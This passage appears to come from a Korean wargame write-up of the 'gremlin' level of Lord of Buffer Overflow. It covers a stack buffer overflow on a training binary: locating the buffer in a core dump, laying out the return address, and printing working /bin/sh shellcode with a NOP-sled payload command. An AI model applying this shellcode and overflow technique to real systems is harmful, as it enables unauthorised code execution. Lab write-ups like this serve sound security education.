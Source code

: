 <img src="http://eliez3r.synology.me/assets/img/writeup/lob/01.gremlin/image-20180827161824108.png" width="700px">{:.rounded.shadow}

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/01.gremlin/image-20180827162010840.png" width="400px">{:.rounded.shadow}

예상한대로 ebp가 "BBBB"로 채워졌으며, EIP가 "CCCC"로 채워졌음을 확인 할 수 있다.

<br>

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/01.gremlin/image-20180827162123236.png" width="500px">{:.rounded.shadow}

프로그램이 종료된 스택 상태를 살펴보면 "A"라는 문자열이 0xbffffcf0 언저리에서 부터 들어간 것을 확인 할 수 있다.  
**우리가 buffer배열의 주소로 구한 0xbffffb88과는 확연히 다른 주소이다.**  
따라서 payload과정에서 시간을 절약하기 위해서 core덤프를 확인하고 진행하는 것이 정신건강에 좋다.

이제 우리의 ret주소는 **0xbffffcf0**으로 잡고 buffer 앞부분에 NOP코드를 넣어 NOP 슬라이딩시켜 shellcode가 실행되게 하면 될 것 같다.

------

### 0x03. Exploit

지금까지 얻은 정보들을 종합하여 RET주소를 변경하여 공격해보자.

1. buffer의 크기는 256Byte
2. SFP 4Byte
3. RET 주소에 0xbffffcf0 주소를 넣으면 된다.
   
메모리 상태를 예상해보면 아래와 같다.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/01.gremlin/image-20180827160200021.png" width="500px">{:.rounded.shadow}

buffer부분에 shellcode를 올려놓고 ret주소에 buffer주소를 넣으면 함수가 종료되면서 ret주소를 참조하여 해당 주소를 실행할 때, shellcode가 실행되게 된다.

<br>

쉘을 실행시키는 shellcode는 다음과 같다.

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

<br>

#### Payload

> NOP(100) + SHELL(24) + NOP(260-100-24) + **0xbffffcf0**

```shell
$ ./gremlin `python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x90"*(260-100-24)+"\xf0\xfc\xff\xbf"'`
```

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/01.gremlin/image-20180827162535728.png" width="800px">{:.rounded.shadow}

-----

### 0x04. 정리
